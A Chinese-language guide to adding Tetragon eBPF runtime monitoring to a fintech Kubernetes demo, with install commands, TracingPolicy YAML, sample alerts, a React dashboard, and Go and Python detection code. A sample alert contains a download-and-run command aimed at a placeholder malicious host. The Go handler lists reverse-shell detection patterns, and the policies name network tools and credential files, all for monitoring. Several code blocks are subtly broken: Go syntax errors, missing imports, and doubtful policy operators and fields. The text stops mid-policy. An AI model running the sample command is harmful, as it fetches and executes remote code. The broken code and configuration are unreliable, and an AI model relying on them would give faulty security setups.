

# Tetragon集成指南 - FinTech eBPF Demo安全增强

## 📋 目录
- [概念介绍](#概念介绍)
- [架构集成](#架构集成)
- [安装配置](#安装配置)
- [安全策略](#安全策略)
- [监控实例](#监控实例)
- [高级用例](#高级用例)
- [故障排除](#故障排除)

## 🧠 概念介绍

### eBPF (Extended Berkeley Packet Filter)

eBPF是Linux内核中的一项革命性技术，它允许在内核空间安全地运行用户定义的程序，无需修改内核代码或加载内核模块。

**核心特性:**
- **内核级监控**: 直接在内核空间收集数据，性能开销极低
- **安全沙箱**: 内核验证器确保程序安全性，不会崩溃系统
- **实时处理**: 零延迟的事件处理和响应
- **丰富的Hook点**: 网络、系统调用、跟踪点等多种挂载点

**在金融系统中的价值:**
```
传统监控方案:
应用程序 → 日志文件 → 监控工具 → 告警 (延迟: 秒级)

eBPF方案:
内核事件 → eBPF程序 → 实时处理 → 即时响应 (延迟: 微秒级)
```

### Cilium网络安全平台

Cilium是基于eBPF技术的云原生网络和安全解决方案，为Kubernetes提供高性能的网络连接、负载均衡和安全策略。

**核心组件:**
- **Cilium Agent**: 每个节点上的守护进程，管理eBPF程序
- **Cilium Operator**: 集群级别的控制器，管理Cilium资源
- **Hubble**: 网络可观测性组件，提供流量监控和安全可视化

**网络功能:**
```yaml
# Cilium网络策略示例
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: trading-api-security
spec:
  endpointSelector:
    matchLabels:
      app: trading-api
  ingress:
  - fromEndpoints:
    - matchLabels:
        app: frontend
    toPorts:
    - ports:
      - port: "8080"
        protocol: TCP
```

### Tetragon运行时安全

Tetragon是Cilium生态系统中的运行时安全组件，基于eBPF技术提供实时的安全监控和威胁检测。

**核心能力:**
1. **进程监控**: 跟踪进程创建、执行、网络连接
2. **文件访问**: 监控敏感文件的读写操作
3. **网络活动**: 检测异常的网络连接和数据传输
4. **系统调用**: 分析系统调用模式，识别恶意行为

**与传统安全工具对比:**

| 特性 | 传统安全工具 | Tetragon |
|------|-------------|----------|
| **部署方式** | Agent安装 | 内核Hook |
| **性能影响** | 5-15% | <1% |
| **检测精度** | 基于签名 | 行为分析 |
| **响应速度** | 秒级 | 实时 |
| **绕过难度** | 中等 | 极高 |

## 🏗️ 架构集成

### FinTech Demo + Tetragon架构



### 安全监控数据流

```
1. 应用程序执行 → 2. 内核事件触发 → 3. eBPF程序处理 → 4. Tetragon Agent收集
                                                                              ↓
8. 安全响应 ← 7. 威胁检测 ← 6. 数据分析 ← 5. 结构化数据
```

## 🔧 安装配置

### 1. 先决条件检查

```bash
# 检查内核版本 (需要 >= 4.19)
uname -r

# 检查eBPF支持
zgrep CONFIG_BPF /proc/config.gz

# 检查Cilium是否已安装
kubectl get pods -n kube-system | grep cilium
```

### 2. Tetragon安装

```bash
# 方法1: Helm安装 (推荐)
helm repo add cilium https://helm.cilium.io/
helm repo update

helm install tetragon cilium/tetragon \
  --namespace kube-system \
  --set tetragon.grpc.enabled=true \
  --set tetragon.prometheus.enabled=true \
  --set tetragon.exportFilename=/var/log/tetragon/tetragon.log

# 方法2: YAML清单安装
kubectl apply -f https://raw.githubusercontent.com/cilium/tetragon/main/install/kubernetes/tetragon.yaml
```

### 3. 验证安装

```bash
# 检查Tetragon Pod状态
kubectl get pods -n kube-system | grep tetragon

# 查看Tetragon日志
kubectl logs -n kube-system daemonset/tetragon -f

# 测试gRPC接口
kubectl exec -n kube-system ds/tetragon -- tetra getevents --output compact
```

## 🛡️ 安全策略配置

### 1. 基础安全策略

创建针对FinTech应用的安全监控策略：

```yaml
# tetragon-policies/fintech-security-policy.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: fintech-security-monitoring
spec:
  # 监控敏感文件访问
  kprobes:
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Postfix"
        values:
        - "/etc/passwd"
        - "/etc/shadow"
        - "/etc/ssh/"
        - "/var/log/"
        - "/proc/*/mem"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控网络连接
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控进程执行
  - call: "security_bprm_check"
    syscall: false
    args:
    - index: 0
      type: "linux_binprm"
    selectors:
    - matchBinaries:
      - operator: "In"
        values:
        - "/bin/sh"
        - "/bin/bash"
        - "/usr/bin/wget"
        - "/usr/bin/curl"
        - "/usr/bin/nc"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"
```

### 2. 应用专用策略

#### Trading API安全策略
```yaml
# tetragon-policies/trading-api-policy.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: trading-api-security
spec:
  kprobes:
  # 监控数据库连接
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchArgs:
      - index: 0
        operator: "DAddr"
        values:
        - "5432"  # PostgreSQL端口
    - matchLabels:
      - key: "app"
        operator: "Equal"
        values:
        - "trading-api"

  # 监控敏感API调用
  - call: "sys_openat"
    syscall: true
    args:
    - index: 1
      type: "string"
    selectors:
    - matchArgs:
      - index: 1
        operator: "Postfix"
        values:
        - "/config/database.yaml"
        - "/secrets/"
    - matchLabels:
      - key: "app"
        operator: "Equal"
        values:
        - "trading-api"
```

#### Payment Gateway安全策略
```yaml
# tetragon-policies/payment-security-policy.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: payment-gateway-security
spec:
  kprobes:
  # 监控加密操作
  - call: "crypto_*"
    syscall: false
    args:
    - index: 0
      type: "void"
    selectors:
    - matchLabels:
      - key: "app"
        operator: "Equal"
        values:
        - "payment-gateway"

  # 监控外部API调用
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchArgs:
      - index: 0
        operator: "NotDAddr"
        values:
        - "10.0.0.0/8"
        - "172.16.0.0/12"
        - "192.168.0.0/16"
    - matchLabels:
      - key: "app"
        operator: "Equal"
        values:
        - "payment-gateway"
```

### 3. 部署安全策略

```bash
# 创建策略目录
mkdir -p k8s/tetragon-policies

# 应用所有安全策略
kubectl apply -f k8s/tetragon-policies/

# 验证策略状态
kubectl get tracingpolicy -n fintech-demo
```

---
**版本:** v4.0  
**更新时间:** 2025-06-16

## 📊 监控实例

### 1. 实时事件监控

```bash
# 监控所有Tetragon事件
kubectl exec -n kube-system ds/tetragon -- tetra getevents

# 监控特定命名空间的事件
kubectl exec -n kube-system ds/tetragon -- tetra getevents \
  --namespace fintech-demo

# 监控进程执行事件
kubectl exec -n kube-system ds/tetragon -- tetra getevents \
  --processes

# 监控网络连接事件
kubectl exec -n kube-system ds/tetragon -- tetra getevents \
  --network
```

### 2. 安全事件示例

#### 恶意进程检测
```json
{
  "process_exec": {
    "process": {
      "exec_id": "OjEyMzQ1Njc4OTA6MTIzNDU2Nzg5MDoxMjM0NTY3ODkw",
      "pid": 12345,
      "uid": 0,
      "cwd": "/tmp",
      "binary": "/bin/sh",
      "arguments": "-c wget http://malicious.com/payload.sh | sh",
      "flags": "execve rootcwd",
      "start_time": "2025-06-16T10:30:45.123456789Z",
      "auid": 1000,
      "pod": {
        "namespace": "fintech-demo",
        "name": "trading-api-7d8c9f5b6-xyz12",
        "container": {
          "id": "containerd://abc123",
          "name": "trading-api"
        }
      }
    },
    "parent": {
      "exec_id": "OjEyMzQ1Njc4OTA6MTIzNDU2Nzg5MDoxMjM0NTY3ODkw",
      "pid": 1,
      "binary": "/usr/bin/node"
    }
  },
  "time": "2025-06-16T10:30:45.123456789Z"
}
```

#### 敏感文件访问
```json
{
  "process_kprobe": {
    "process": {
      "exec_id": "OjEyMzQ1Njc4OTA6MTIzNDU2Nzg5MDoxMjM0NTY3ODkw",
      "pid": 12346,
      "binary": "/app/trading-api",
      "pod": {
        "namespace": "fintech-demo",
        "name": "trading-api-7d8c9f5b6-xyz12"
      }
    },
    "function_name": "security_file_open",
    "args": [
      {
        "file_arg": {
          "path": "/etc/passwd"
        }
      }
    ],
    "return": {
      "int_arg": 0
    }
  },
  "time": "2025-06-16T10:31:15.987654321Z"
}
```

### 3. 集成到现有安全测试

#### 更新SecurityTesting组件
```typescript
// frontend/src/pages/Security/TetragonMonitor.tsx
import React, { useState, useEffect } from 'react';
import { Card, Table, Alert, Badge, Button } from 'antd';
import { SecurityScanOutlined, WarningOutlined } from '@ant-design/icons';

interface TetragonEvent {
  id: string;
  timestamp: string;
  eventType: string;
  process: {
    name: string;
    pid: number;
    namespace: string;
    podName: string;
  };
  severity: 'low' | 'medium' | 'high' | 'critical';
  description: string;
  rawEvent: any;
}

const TetragonMonitor: React.FC = () => {
  const [events, setEvents] = useState<TetragonEvent[]>([]);
  const [loading, setLoading] = useState(false);
  const [connected, setConnected] = useState(false);

  useEffect(() => {
    // WebSocket连接到Tetragon事件流
    const ws = new WebSocket('ws://fintech-demo.local/api/audit/tetragon-events');
    
    ws.onopen = () => {
      setConnected(true);
      console.log('Tetragon事件流已连接');
    };
    
    ws.onmessage = (event) => {
      const tetragonEvent = JSON.parse(event.data);
      setEvents(prev => [parseTetragonEvent(tetragonEvent), ...prev.slice(0, 99)]);
    };
    
    ws.onclose = () => setConnected(false);
    
    return () => ws.close();
  }, []);

  const parseTetragonEvent = (rawEvent: any): TetragonEvent => {
    return {
      id: `${rawEvent.time}-${Math.random()}`,
      timestamp: rawEvent.time,
      eventType: rawEvent.process_exec ? 'process_exec' : 
                rawEvent.process_kprobe ? 'file_access' :
                rawEvent.process_tracepoint ? 'network' : 'unknown',
      process: {
        name: rawEvent.process_exec?.process?.binary || 
              rawEvent.process_kprobe?.process?.binary || 'unknown',
        pid: rawEvent.process_exec?.process?.pid || 
             rawEvent.process_kprobe?.process?.pid || 0,
        namespace: rawEvent.process_exec?.process?.pod?.namespace ||
                  rawEvent.process_kprobe?.process?.pod?.namespace || 'unknown',
        podName: rawEvent.process_exec?.process?.pod?.name ||
                rawEvent.process_kprobe?.process?.pod?.name || 'unknown'
      },
      severity: calculateSeverity(rawEvent),
      description: generateDescription(rawEvent),
      rawEvent
    };
  };

  const calculateSeverity = (event: any): 'low' | 'medium' | 'high' | 'critical' => {
    if (event.process_exec?.process?.binary?.includes('sh') ||
        event.process_exec?.process?.arguments?.includes('wget') ||
        event.process_exec?.process?.arguments?.includes('curl')) {
      return 'high';
    }
    if (event.process_kprobe?.args?.[0]?.file_arg?.path?.includes('/etc/')) {
      return 'medium';
    }
    return 'low';
  };

  const generateDescription = (event: any): string => {
    if (event.process_exec) {
      return `进程执行: ${event.process_exec.process.binary} ${event.process_exec.process.arguments || ''}`;
    }
    if (event.process_kprobe) {
      return `文件访问: ${event.process_kprobe.args?.[0]?.file_arg?.path || '未知路径'}`;
    }
    return '未知事件类型';
  };

  const columns = [
    {
      title: '时间',
      dataIndex: 'timestamp',
      key: 'timestamp',
      render: (timestamp: string) => new Date(timestamp).toLocaleString()
    },
    {
      title: '事件类型',
      dataIndex: 'eventType',
      key: 'eventType',
      render: (type: string) => (
        <Badge 
          color={type === 'process_exec' ? 'blue' : type === 'file_access' ? 'orange' : 'green'}
          text={type}
        />
      )
    },
    {
      title: '进程',
      dataIndex: ['process', 'name'],
      key: 'processName'
    },
    {
      title: 'Pod',
      dataIndex: ['process', 'podName'],
      key: 'podName'
    },
    {
      title: '严重程度',
      dataIndex: 'severity',
      key: 'severity',
      render: (severity: string) => (
        <Badge 
          color={severity === 'critical' ? 'red' : 
                 severity === 'high' ? 'orange' : 
                 severity === 'medium' ? 'yellow' : 'green'}
          text={severity.toUpperCase()}
        />
      )
    },
    {
      title: '描述',
      dataIndex: 'description',
      key: 'description'
    }
  ];

  return (
    <Card 
      title={
        <div style={{ display: 'flex', alignItems: 'center' }}>
          <SecurityScanOutlined style={{ marginRight: 8 }} />
          Tetragon运行时安全监控
          <Badge 
            color={connected ? 'green' : 'red'} 
            text={connected ? '已连接' : '未连接'} 
            style={{ marginLeft: 16 }}
          />
        </div>
      }
      extra={
        <Button 
          type="primary" 
          onClick={() => setEvents([])}
          disabled={!connected}
        >
          清空事件
        </Button>
      }
    >
      <Alert
        message="实时安全监控"
        description="基于eBPF技术的Tetragon运行时安全监控，实时检测进程执行、文件访问和网络连接等安全事件。"
        type="info"
        showIcon
        style={{ marginBottom: 16 }}
      />
      
      <Table
        dataSource={events}
        columns={columns}
        rowKey="id"
        pagination={{ pageSize: 20 }}
        loading={loading}
        scroll={{ x: 1200 }}
        expandable={{
          expandedRowRender: (record) => (
            <pre style={{ background: '#f5f5f5', padding: 8, fontSize: 12 }}>
              {JSON.stringify(record.rawEvent, null, 2)}
            </pre>
          )
        }}
      />
    </Card>
  );
};

export default TetragonMonitor;
```

## 🚀 高级用例

### 1. 零信任网络安全

#### 实施微分段
```yaml
# k8s/security/network-segmentation.yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: zero-trust-fintech
  namespace: fintech-demo
spec:
  description: "金融应用零信任网络策略"
  endpointSelector:
    matchLabels:
      app: trading-api
  
  # 仅允许来自前端的HTTP流量
  ingress:
  - fromEndpoints:
    - matchLabels:
        app: frontend
    toPorts:
    - ports:
      - port: "8080"
        protocol: TCP
        rules:
          http:
          - method: "GET"
            path: "/api/v1/.*"
          - method: "POST"
            path: "/api/v1/orders"
          - method: "POST"
            path: "/api/v1/security/test/.*"
  
  # 仅允许访问数据库
  egress:
  - toEndpoints:
    - matchLabels:
        app: postgresql
    toPorts:
    - ports:
      - port: "5432"
        protocol: TCP
  - toEndpoints:
    - matchLabels:
        app: redis
    toPorts:
    - ports:
      - port: "6379"
        protocol: TCP
  
  # 阻止所有其他流量
  - toEntities:
    - "world"
    toPorts: []
```

### 2. 威胁检测和响应

#### 自动化响应策略
```yaml
# tetragon-policies/automated-response-policy.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: threat-response-automation
spec:
  kprobes:
  # 检测恶意进程执行
  - call: "security_bprm_check"
    syscall: false
    args:
    - index: 0
      type: "linux_binprm"
    selectors:
    - matchBinaries:
      - operator: "In"
        values:
        - "/usr/bin/wget"
        - "/usr/bin/curl"
        - "/bin/sh"
        - "/bin/bash"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"
    actions:
    - action: "Post"
      rateLimit: "1m"
      argError: -1
      argSig: 9
```

#### 威胁响应处理器
```go
// backend/security/threat-response-handler.go
package security

import (
    "context"
    "encoding/json"
    "log"
    "time"
    
    "github.com/cilium/tetragon/pkg/tetragon"
    "k8s.io/client-go/kubernetes"
)

type ThreatResponseHandler struct {
    k8sClient   kubernetes.Interface
    alertChan   chan SecurityAlert
}

type SecurityAlert struct {
    Timestamp   time.Time              `json:"timestamp"`
    Severity    string                 `json:"severity"`
    EventType   string                 `json:"event_type"`
    Process     ProcessInfo            `json:"process"`
    Action      string                 `json:"action"`
    RawEvent    map[string]interface{} `json:"raw_event"`
}

type ProcessInfo struct {
    Name      string `json:"name"`
    PID       int    `json:"pid"`
    Namespace string `json:"namespace"`
    PodName   string `json:"pod_name"`
    Binary    string `json:"binary"`
    Arguments string `json:"arguments"`
}

func NewThreatResponseHandler(k8sClient kubernetes.Interface) *ThreatResponseHandler {
    return &ThreatResponseHandler{
        k8sClient: k8sClient,
        alertChan: make(chan SecurityAlert, 1000),
    }
}

func (h *ThreatResponseHandler) HandleTetragonEvent(event *tetragon.GetEventsResponse) {
    alert := h.parseEvent(event)
    if alert != nil {
        h.alertChan <- *alert
        h.executeResponse(alert)
    }
}

func (h *ThreatResponseHandler) parseEvent(event *tetragon.GetEventsResponse) *SecurityAlert {
    if processExec := event.GetProcessExec(); processExec != nil {
        process := processExec.GetProcess()
        
        // 检测恶意模式
        if h.isThreateningProcess(process.GetBinary(), process.GetArguments()) {
            return &SecurityAlert{
                Timestamp: time.Now(),
                Severity:  "HIGH",
                EventType: "malicious_process_execution",
                Process: ProcessInfo{
                    Name:      process.GetBinary(),
                    PID:       int(process.GetPid()),
                    Namespace: process.GetPod().GetNamespace(),
                    PodName:   process.GetPod().GetName(),
                    Binary:    process.GetBinary(),
                    Arguments: strings.Join(process.GetArguments(), " "),
                },
                Action:   "isolate_pod",
                RawEvent: h.eventToMap(event),
            }
        }
    }
    return nil
}

func (h *ThreatResponseHandler) isThreateningProcess(binary string, args []string) bool {
    threateningBinaries := []string{
        "/usr/bin/wget", "/usr/bin/curl", "/bin/nc", "/usr/bin/nmap"
    }
    
    for _, threatening := range threateningBinaries {
        if binary == threatening {
            return true
        }
    }
    
    // 检查参数中的恶意模式
    argString := strings.Join(args, " ")
    maliciousPatterns := []string{
        "http://", "https://", "nc -e", "bash -i", "/dev/tcp/"
    }
    
    for _, pattern := range maliciousPatterns {
        if strings.Contains(argString, pattern) {
            return true
        }
    }
    
    return false
}

func (h *ThreatResponseHandler) executeResponse(alert *SecurityAlert) {
    switch alert.Action {
    case "isolate_pod":
        h.isolatePod(alert.Process.Namespace, alert.Process.PodName)
    case "scale_down":
        h.scaleDownDeployment(alert.Process.Namespace, alert.Process.PodName)
    case "network_isolate":
        h.applyNetworkIsolation(alert.Process.Namespace, alert.Process.PodName)
    }
    
    // 发送告警通知
    h.sendAlert(alert)
}

func (h *ThreatResponseHandler) isolatePod(namespace, podName string) {
    // 应用网络隔离策略
    isolationPolicy := &ciliumv2.CiliumNetworkPolicy{
        ObjectMeta: metav1.ObjectMeta{
            Name:      fmt.Sprintf("isolate-%s", podName),
            Namespace: namespace,
        },
        Spec: &ciliumv2.CiliumNetworkPolicySpec{
            EndpointSelector: metav1.LabelSelector{
                MatchLabels: map[string]string{
                    "app": podName,
                },
            },
            Ingress: []ciliumv2.IngressRule{}, // 阻止所有入站流量
            Egress:  []ciliumv2.EgressRule{},  // 阻止所有出站流量
        },
    }
    
    // 应用隔离策略到集群
    log.Printf("隔离Pod: %s/%s", namespace, podName)
}
```

### 3. 合规性监控

#### SOX合规策略
```yaml
# tetragon-policies/sox-compliance-policy.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: sox-compliance-monitoring
spec:
  kprobes:
  # 监控财务数据访问
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Postfix"
        values:
        - "/data/financial/"
        - "/data/transactions/"
        - "/data/audit/"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控数据库访问
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchArgs:
      - index: 0
        operator: "DPort"
        values:
        - "5432"  # PostgreSQL
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控管理员权限使用
  - call: "security_bprm_check"
    syscall: false
    args:
    - index: 0
      type: "linux_binprm"
    selectors:
    - matchBinaries:
      - operator: "In"
        values:
        - "/usr/bin/sudo"
        - "/bin/su"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"
```

### 4. 性能基线建立

#### 建立正常行为基线
```python
# scripts/tetragon-baseline.py
import json
import time
import statistics
from collections import defaultdict, deque
from datetime import datetime, timedelta

class TetragonBaseline:
    def __init__(self):
        self.process_patterns = defaultdict(list)
        self.network_patterns = defaultdict(list)
        self.file_access_patterns = defaultdict(list)
        self.baseline_window = timedelta(hours=24)
        
    def analyze_events(self, events):
        """分析Tetragon事件建立基线"""
        for event in events:
            self.categorize_event(event)
            
    def categorize_event(self, event):
        timestamp = datetime.fromisoformat(event['time'].replace('Z', '+00:00'))
        
        if 'process_exec' in event:
            self.analyze_process_event(event['process_exec'], timestamp)
        elif 'process_kprobe' in event:
            if 'tcp_connect' in event['process_kprobe']['function_name']:
                self.analyze_network_event(event['process_kprobe'], timestamp)
            elif 'file_open' in event['process_kprobe']['function_name']:
                self.analyze_file_event(event['process_kprobe'], timestamp)
                
    def analyze_process_event(self, process_event, timestamp):
        """分析进程执行模式"""
        process = process_event['process']
        key = f"{process['pod']['namespace']}/{process['binary']}"
        
        pattern = {
            'timestamp': timestamp,
            'binary': process['binary'],
            'arguments': process.get('arguments', []),
            'uid': process.get('uid', 0),
            'pid': process['pid']
        }
        
        self.process_patterns[key].append(pattern)
        
    def generate_baseline_report(self):
        """生成基线报告"""
        report = {
            'generated_at': datetime.now().isoformat(),
            'baseline_period': self.baseline_window.total_seconds(),
            'process_baseline': self.generate_process_baseline(),
            'network_baseline': self.generate_network_baseline(),
            'file_access_baseline': self.generate_file_baseline()
        }
        
        return report
        
    def generate_process_baseline(self):
        """生成进程执行基线"""
        baseline = {}
        
        for key, patterns in self.process_patterns.items():
            if len(patterns) < 10:  # 样本太少
                continue
                
            # 计算执行频率
            freq_per_hour = len(patterns) / (self.baseline_window.total_seconds() / 3600)
            
            # 分析参数模式
            arg_patterns = [' '.join(p['arguments']) for p in patterns]
            unique_args = list(set(arg_patterns))
            
            baseline[key] = {
                'frequency_per_hour': freq_per_hour,
                'common_arguments': unique_args[:10],  # 前10个常见参数组合
                'uid_range': [min(p['uid'] for p in patterns), 
                             max(p['uid'] for p in patterns)],
                'sample_count': len(patterns)
            }
            
        return baseline
        
    def detect_anomalies(self, current_events, baseline):
        """基于基线检测异常"""
        anomalies = []
        
        for event in current_events:
            if 'process_exec' in event:
                anomaly = self.check_process_anomaly(event['process_exec'], baseline)
                if anomaly:
                    anomalies.append(anomaly)
                    
        return anomalies
        
    def check_process_anomaly(self, process_event, baseline):
        """检查进程执行异常"""
        process = process_event['process']
        key = f"{process['pod']['namespace']}/{process['binary']}"
        
        if key not in baseline['process_baseline']:
            return {
                'type': 'unknown_process',
                'severity': 'medium',
                'description': f'未知进程执行: {process["binary"]}',
                'process': process
            }
            
        base = baseline['process_baseline'][key]
        current_args = ' '.join(process.get('arguments', []))
        
        # 检查参数异常
        if current_args not in base['common_arguments']:
            return {
                'type': 'unusual_arguments',
                'severity': 'low',
                'description': f'异常参数: {current_args}',
                'process': process
            }
            
        # 检查权限异常
        if process.get('uid', 0) not in range(base['uid_range'][0], base['uid_range'][1] + 1):
            return {
                'type': 'privilege_escalation',
                'severity': 'high', 
                'description': f'权限异常: UID {process.get("uid")}',
                'process': process
            }
            
        return None
```

---
**持续更新中...**

### 5. 容器运行时安全

#### 容器逃逸检测
```yaml
# tetragon-policies/container-escape-detection.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: container-escape-detection
spec:
  kprobes:
  # 监控特权操作
  - call: "cap_capable"
    syscall: false
    args:
    - index: 1
      type: "int"
    selectors:
    - matchArgs:
      - index: 1
        operator: "Equal"
        values:
        - "21"   # CAP_SYS_ADMIN
        - "27"   # CAP_MKNOD
        - "8"    # CAP_SETUID
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控可疑的挂载操作
  - call: "security_sb_mount"
    syscall: false
    args:
    - index: 1
      type: "string"
    - index: 2
      type: "string"
    selectors:
    - matchArgs:
      - index: 2
        operator: "In"
        values:
        - "/proc"
        - "/sys"
        - "/dev"
        - "/host"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"

  # 监控namespace操作
  - call: "security_task_unshare"
    syscall: false
    args:
    - index: 1
      type: "unsigned long"
    selectors:
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"
```

#### 运行时策略违规检测
```go
// backend/security/runtime-policy-enforcer.go
package security

import (
    "context"
    "fmt"
    "strings"
    "time"
)

type RuntimePolicyEnforcer struct {
    allowedBinaries   map[string][]string
    blockedSyscalls   []string
    maxProcessCount   int
    allowedFileAccess map[string][]string
}

type PolicyViolation struct {
    Type        string                 `json:"type"`
    Severity    string                 `json:"severity"`
    Process     ProcessInfo            `json:"process"`
    Violation   string                 `json:"violation"`
    Timestamp   time.Time              `json:"timestamp"`
    Action      string                 `json:"action"`
    Details     map[string]interface{} `json:"details"`
}

func NewRuntimePolicyEnforcer() *RuntimePolicyEnforcer {
    return &RuntimePolicyEnforcer{
        allowedBinaries: map[string][]string{
            "fintech-demo": {
                "/app/trading-api",
                "/usr/bin/node", 
                "/bin/sh",       // 仅用于容器启动
                "/usr/sbin/nginx",
            },
        },
        blockedSyscalls: []string{
            "ptrace", "mount", "umount", "reboot", "syslog",
        },
        maxProcessCount: 50,
        allowedFileAccess: map[string][]string{
            "fintech-demo": {
                "/app/", "/tmp/", "/var/log/", "/etc/ssl/",
            },
        },
    }
}

func (e *RuntimePolicyEnforcer) EvaluateEvent(event *tetragon.GetEventsResponse) *PolicyViolation {
    if processExec := event.GetProcessExec(); processExec != nil {
        return e.checkProcessPolicy(processExec)
    }
    
    if processKprobe := event.GetProcessKprobe(); processKprobe != nil {
        return e.checkFileAccessPolicy(processKprobe)
    }
    
    return nil
}

func (e *RuntimePolicyEnforcer) checkProcessPolicy(processExec *tetragon.ProcessExec) *PolicyViolation {
    process := processExec.GetProcess()
    namespace := process.GetPod().GetNamespace()
    binary := process.GetBinary()
    
    // 检查是否允许该二进制文件
    allowedBins, exists := e.allowedBinaries[namespace]
    if !exists {
        return &PolicyViolation{
            Type:      "policy_violation",
            Severity:  "high",
            Process:   convertToProcessInfo(process),
            Violation: "namespace_not_in_policy",
            Timestamp: time.Now(),
            Action:    "terminate_process",
            Details: map[string]interface{}{
                "namespace": namespace,
                "binary":    binary,
            },
        }
    }
    
    allowed := false
    for _, allowedBin := range allowedBins {
        if strings.HasPrefix(binary, allowedBin) {
            allowed = true
            break
        }
    }
    
    if !allowed {
        return &PolicyViolation{
            Type:      "unauthorized_binary",
            Severity:  "critical",
            Process:   convertToProcessInfo(process),
            Violation: "binary_not_in_whitelist",
            Timestamp: time.Now(),
            Action:    "terminate_process",
            Details: map[string]interface{}{
                "binary":          binary,
                "allowed_binaries": allowedBins,
            },
        }
    }
    
    return nil
}

func (e *RuntimePolicyEnforcer) checkFileAccessPolicy(processKprobe *tetragon.ProcessKprobe) *PolicyViolation {
    process := processKprobe.GetProcess()
    namespace := process.GetPod().GetNamespace()
    
    // 检查文件访问
    if len(processKprobe.GetArgs()) > 0 {
        if fileArg := processKprobe.GetArgs()[0].GetFileArg(); fileArg != nil {
            path := fileArg.GetPath()
            
            // 检查敏感文件访问
            sensitiveFiles := []string{
                "/etc/passwd", "/etc/shadow", "/etc/sudoers",
                "/root/", "/var/run/docker.sock", "/proc/*/mem",
            }
            
            for _, sensitive := range sensitiveFiles {
                if strings.Contains(path, sensitive) {
                    return &PolicyViolation{
                        Type:      "sensitive_file_access",
                        Severity:  "high",
                        Process:   convertToProcessInfo(process),
                        Violation: "access_to_sensitive_file",
                        Timestamp: time.Now(),
                        Action:    "alert_and_log",
                        Details: map[string]interface{}{
                            "file_path": path,
                            "access_type": processKprobe.GetFunctionName(),
                        },
                    }
                }
            }
        }
    }
    
    return nil
}
```

### 6. 金融特定安全监控

#### 交易异常检测
```yaml
# tetragon-policies/trading-anomaly-detection.yaml
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: trading-anomaly-detection
spec:
  kprobes:
  # 监控大额交易处理
  - call: "tcp_sendmsg"
    syscall: false
    args:
    - index: 1  
      type: "msg"
    selectors:
    - matchBinaries:
      - operator: "Equal"
        values:
        - "/app/trading-api"
    - matchNamespaces:
      - namespace: "fintech-demo"
        operator: "In"
    # 添加自定义过滤器检测JSON中的大额交易
    filters:
